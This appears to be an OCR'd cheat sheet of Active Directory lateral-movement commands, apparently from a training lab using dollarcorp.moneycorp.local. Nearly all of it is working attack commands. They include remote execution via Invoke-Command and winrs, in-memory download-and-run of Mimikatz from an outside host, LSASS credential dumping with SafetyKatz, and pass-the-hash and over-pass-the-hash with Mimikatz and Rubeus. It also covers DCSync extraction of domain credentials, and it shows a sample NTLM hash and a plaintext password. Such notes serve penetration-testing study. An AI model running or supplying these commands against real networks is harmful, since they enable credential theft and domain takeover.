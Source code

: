```
Invoke-Command -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local -ScriptBlock ${function:Get-PassHahses}
iex (iwr http://172.16.100.7:9090/Invoke-Mimikatz.ps1 -UseBasicParsing)   #load mimikatz on the memory
Invoke-Command -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local -ScriptBlock ${function:Invoke-Mimikatz}   #run mimikatz
```
### Execute scripts from files on another machine
```
Invoke-Command -Computername dcorp-mgmt.dollarcorp.moneycorp.local -FilePath C:\scripts\Get-PassHahes.ps1   #check who you are
```
### Connect to different machines using winrs
```
winrs -r:dcorp-adminsrv cmd
winrs -remote:server1 -u:server1\administrator -p:Pass@123 hostname
```

# Lateral Movement - Mimikatz
### SafetyKatz.exe
use SafetyKatz to minidump of lsass and PELoader to run Mimikatz
```
SafetyKatz.exe "sekurlsa::ekeys"
```
### Dump Creds from LSASS process. admin privilege is required
```
privilege::debug | token::elevate | sekurlsa::logonpasswords
```
### Dump Creds on a local 
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
### run powrshell using NTLM hash of a user
```
sekurlsa::pth /user:svcadmin /ntlm:b38ff50264b74508085d82c69794a4d8 /domain:dollarcorp.moneycorp.local /run:powershell.exe
```
### Over Pass the Hash (OPTH)
pth: you are using NTLM and targeting local accounts

opth: you are using NTLM or AES. we create a request or ticket from the DC.
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntImhash> /run:powershell.exe"'
C:\AD\Tools\Loader.exe -Path C:\AD\tools\SafetyKatz.exe "sekurlsa::opassth /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:<aes256key> /run:cmd.exe" "exit"
OR
Rubeus.exe asktgt /user:svcadmin /aes256:<aes256key> /opsec /createnetonly:C:\Windows/System32\cmd.exe /show /ptt
winrs -r:scorp-dc cmd   #use winrs to interact with DC with svcadmin user
```
### DCSync
Extract credentials from the DC without code execution on it. Domain Admin privs are required to run DCSync
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\raman"'
safetyKatz.exe "lsadump::dcsync /user:us\kebtgt" "exit"
```